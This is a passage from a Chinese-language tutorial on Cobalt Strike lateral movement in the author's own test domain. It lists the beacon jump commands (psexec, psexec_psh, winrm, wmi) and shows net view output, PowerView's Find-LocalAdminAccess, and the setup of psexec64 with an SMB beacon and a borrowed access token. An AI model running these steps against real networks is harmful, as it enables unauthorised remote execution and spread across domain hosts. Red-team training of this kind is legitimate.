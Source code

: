 **beacon 的自动操作**
前面说的两种执行文件的方法都需要往磁盘里上传文件，如果不想往磁盘中上传文件，也可以使用 beacon 的自动操作。

- 使用一个服务运行可执行文件

```powershell
psexec [target] [share] [listener]
```

- 使用一个服务运行 Powershell 单行程序

```powershell
psexec_psh [target] [listener]
```

- 通过 WinRM 运行 Powershell 单行程序

```powershell
winrm [target] [listener]
```

- 通过 WMI 运行 Powershell 单行程序

```powershell
wmi [target] [listener]
```

在 Cobalt Strike 的 viwe --> Targets 下，右击主机选择 Jump 也可以通过图形化的方式进行上述操作，这样也使得横向移动更加的简单。
接下来进行一下演示，目前手中有一个普通机器的管理员会话，我们先在这台机器上运行 net view 查看一下当前域环境中的主机信息。

```powershell
beacon> net view
[*] Tasked beacon to run net view
[+] host called home, sent: 104504 bytes
[+] received output:
List of hosts:
[+] received output:
 Server Name             IP Address                       Platform  Version  Type   Comment
 -----------             ----------                       --------  -------  ----   -------            
 WINDC                   192.168.175.144                  500       6.1      PDC    
 WINTEST                 192.168.175.130                  500       6.1
```

因为是自己本地搭建的测试环境，所以主机很少，可以看到当前域中有两台机器，再利用 PowerView 查找一下具有本地管理员访问权限的用户

```powershell
beacon> powershell-import PowerView.ps1
[*] Tasked beacon to import: PowerView.ps1
[+] host called home, sent: 101224 bytes

beacon> powershell Find-LocalAdminAccess
[*] Tasked beacon to run: Find-LocalAdminAccess
[+] host called home, sent: 329 bytes
[+] received output:
WinDC.teamssix.com
```

接下来在 WinDC 上运行 psexec，因为这里是 64 位的，所以选择 psexec64，之后监听选择一个 smb beacon，会话就选择已经上线的 wintest 主机的会话，并勾选使用当前会话的访问令牌。
